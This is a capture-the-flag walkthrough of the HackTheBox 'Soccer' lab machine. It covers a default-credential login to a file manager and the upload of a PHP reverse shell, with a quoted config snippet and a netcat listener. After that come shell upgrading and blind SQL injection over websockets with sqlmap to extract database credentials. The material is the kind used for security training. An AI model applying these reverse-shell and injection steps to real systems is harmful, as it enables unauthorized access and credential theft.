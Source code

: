 ```yaml
---
title: "HackTheBox-Write-Up---Soccer-fe86b37d7037"
date: 2023-05-03
layout: post
categories: medium
---
```



HackTheBox Write Up — Soccer
============================


A brief walkthrough of the ‘Soccer’

---

### HackTheBox Write Up — Soccer

#### A walkthrough of the ‘Soccer’ box from HackTheBox

![](/assets/images/1jnFpt4i0LUVaVrlqP1E4Gw.png)
#### Scanning & Enumeration

As usual, the first step is to start with an Nmap scan. This revealed ports 22 (SSH), 80 (HTTP), and 9091.

Next I navigated to the webpage, which didn’t have a lot of options available to investigate. Next up is directory busting.

#### **Directory Busting**

![](/assets/images/1N0jZonUbSbE5ypKpdAI5pA.png)

`ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://soccer.htb:80/FUZZ`

Since I’m currently studying for the PNPT from TCM Security and the training is fresh in my mind, I’ll be using FFuF for directory enumeration.

The only real result that came back was the subdomain: `http://soccer.htb/tiny` , which results in a login page that can potentially be brute forced.

#### Initial Access

Before spending time attempting to brute force, let’s first do some OSINT by doing a quick Google search on default credentials for TinyFileManager.

This pays off and saves us some time as the default admin username and password worked and we’re logged in.

![](/assets/images/1CvlPP484HahwYUCEHd80IA.png)

Digging through the ‘Tiny File Manager’ web portal, the first thing that stands out to me is the ‘Upload’ section. This is just asking to be abused and can potentially lead to a reverse shell.

\*Take notice of the permissions set for each file and folder. The ‘/tiny/uploads’ directory is the only folder we have permission to write to.

I decided to use [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) code for the reverse shell from pentestmonkey, which I’ve nicknamed catshell.php for this lab (don’t ask me why).

Be sure to adjust the IP and port before saving the file. Below is a snip it from the code showing where these changes are made.

```
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '127.0.0.1';  // CHANGE THIS  
$port = 1234;       // CHANGE THIS  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/sh -i';  
$daemon = 0;  
$debug = 0;
```

Next, I set up a listener using netcat:

```
nc -lvnp 4444
```

All we have to do is upload this file and then hit the ‘Direct Link’ button under the ‘Actions’ section. With this, we gain a shell.

The first thing to do is use the following command to get bash:

```
python3 -c "import pty;pty.spawn('/bin/bash')" 
```

Checking the user permissions next, we see our user www-data has low privileges.

![](/assets/images/1Oxn6mA14oA-l13zkoxcUiQ.png)

With this shell we can enumerate further. Referencing the previous findings on port 80/http, I list out the contents of the /etc/nginx/site-enabled directory using the following command:

```
ls /etc/nginx/site-enabled
```

This reveals a file called `soc-player.htb`. When opening this file using cat, it reveals the server\_name: `soc-player.soccer.htb`

I need this to reflect in the /etc/hosts file so I input it, replacing the previous soccer.htb entry.

Navigating to this newly found site we have more options to explore. We now have a few directory listings on the header menu: “Match”, “Login”, “Sign Up”.

I neglected to get a screenshot of this page. But if you can imagine a very simple webpage with some basic directory listings, a robot (or I suppose a prosthetic) soccer leg kicking a flaming soccer ball, and some lorem ipsum giving a brief history of the entire sport of soccer; then you’re up to speed.

Let’s go ahead and sign up. This presents us with one free ticket voucher and an input field where we can check the validity of our ticket ID. This may prove to be an interesting foothold to exploit.

#### Privilege Escalation

Next, I investigate this newly found subdomain further by inspecting the webpage which reveals that Websockets are in use here. Researching possible SQLi for Websockets, we have one that should work found [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that actually automates this.

We’ll need to adjust the parameters for this script. Ensure the “`ws_server`” parameter has the correct URL and the “`data`” contains the “id” parameter as this is what we are using for authentication:

![](/assets/images/1xXN6XCi2hU6M2zAJPIKiwA.png)

Following the directions of the author of this script, I used the following sqlmap command. I just adjusted the tags at the end to narrow down the search a bit. This took a very long time, so keep that in mind if you’re following along.

![](/assets/images/15XQszEZOS4oql-8rlTp4ww.png)

After a long wait and a nice coffee break, SQLMap yielded Database credentials for soccer\_db.

![](/assets/images/1UhU4FA7po_4OcbA2bYQadQ.png)

Using these credentials to establish an SSH connection worked like a charm, so I just navigated to the root folder to obtain the ‘user.txt’ flag.

![](/assets/images/1-_iENcZpdkR5fCBdnlnO5w.png)
#### GAME OVER



By [Grant Wilsey](https://medium.com/@darkyolks) on [May 3, 2023](https://medium.com/p/fe86b37d7037).

[Canonical link](https://medium.com/@darkyolks/hackthebox-write-up-soccer-fe86b37d7037)

Exported from [Medium](https://medium.com) on December 27, 2024.

